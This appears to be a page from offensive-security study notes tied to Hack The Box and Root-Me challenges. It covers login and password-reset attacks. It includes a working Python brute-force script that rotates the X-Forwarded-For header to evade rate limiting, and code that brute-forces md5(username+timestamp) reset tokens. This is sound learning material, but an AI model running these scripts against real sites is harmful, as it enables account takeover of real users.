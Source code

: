 # Account discovery

<hr class="sep-both">

## Log In Page

<div class="row row-cols-lg-2"><div>

#### Log In Page — Rate Limit

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)

Some websites are implementing a rate timer often using a super increasing wait time. If they are checking the `X-Forwarded-For` to avoid blocking proxies, it means we can arbitrary pick an IP to "ban".

```py
import argparse
import time
import requests

parser = argparse.ArgumentParser(description='Login Brute Force Script')
parser.add_argument('-u', '--userlist', dest='users', required=True, help='Path to the wordlist of usernames')
parser.add_argument('-p', '--passlist', dest='passwords', required=True, help='Path to the wordlist of passwords')
args = parser.parse_args()

with open(args.users, 'r') as f:
    users = [line.strip() for line in f.readlines()]

with open(args.passwords, 'r') as f:
    passwords = [line.strip() for line in f.readlines()]
```
</div><div>

```py
s = requests.Session()
ip_offset = 1
base_ip = '0.0.0.'
for user in users:
    for password in passwords:
        while True:
            response = s.post(
                url='URL/login.php',
                data={
                },
                headers={
                    'X-Forwarded-For': base_ip + str(ip_offset)
                }
            )
            if 'Invalid credentials' in response.text:
                print(f"[-] Failed with {user}:{password}")
                break
            elif 'Too many login failures' in response.text:
                time.sleep(30)
            elif 'Welcome back' in response.text:
                print(f"[+] Found credentials {user}:{password}")
                break
            else:
                print(f"[!] Unexpected reply for {user}:{password}")
                print(response.text)
                break

            ip_offset += 1
```

</div></div>

<hr class="sep-both">

## Password Reset

<div class="row row-cols-lg-2"><div>

#### Password Reset — Predictable Token

[![broken_authentication](../../../../_badges/htb/broken_authentication.svg)](https://academy.hackthebox.com/course/preview/broken-authentication)
[![marabout](../../../../_badges/rootme/realist/marabout.svg)](https://www.root-me.org/en/Challenges/Realist/Marabout)

Reset tokens associated with a request to reset a user account should be randomly generated. Some are using predictable values:

* 🪓 Some hashing function: `md5(username)`
* 🗺️ Some short number: `12345`
* 🪦 Some temporary password based on known data
* 🚧 Some known values to the user, such as with [CVE-2016-0783](https://nvd.nist.gov/vuln/detail/CVE-2016-0783)

```php!
$time = intval(microtime(true) * 1000);
$token = md5($username . $time);
```

Most servers are returning a Date Header with the date of the server. We only need to brute force the microsecond.

```py
time_string = "Sat, 04 May 2024 09:35:52 GMT"
format_string = "%a, %d %b %Y %H:%M:%S %Z"
dt_object = datetime.datetime.strptime(time_string, format_string)
dt_object = pytz.timezone('GMT').localize(dt_object)
base_epoch_ms = int(dt_object.timestamp() * 1000)
for epoch_ms in range(base_epoch_ms - 1000, base_epoch_ms + 1000 + 1):
    token = hashlib.md5(('username' + str(epoch_ms)).encode()).hexdigest()
    # test the token
```
</div><div>
</div></div>